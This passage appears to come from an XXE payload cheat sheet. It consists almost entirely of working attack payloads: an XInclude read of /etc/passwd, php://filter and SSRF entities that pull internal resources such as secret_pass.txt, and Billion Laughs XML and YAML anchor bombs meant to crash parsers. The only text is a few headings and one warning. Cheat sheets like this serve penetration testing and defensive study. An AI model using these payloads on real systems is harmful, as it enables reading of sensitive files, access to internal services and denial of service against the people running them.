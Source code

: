 ```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

#### **XInclude attacks** ####

When you can't modify the **DOCTYPE** element use the **XInclude** to target

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### **Exploiting XXE to perform SSRF attacks** ###

XXE can be combined with the [SSRF vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) to target another service on the network.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```

### **Exploiting XXE to perform a deny of service** ###

⚠️ : These attacks might kill the service or the server, do not use them on the production.

#### **Billion Laugh Attack** ####

```
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

#### **Yaml attack** ####

```
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```
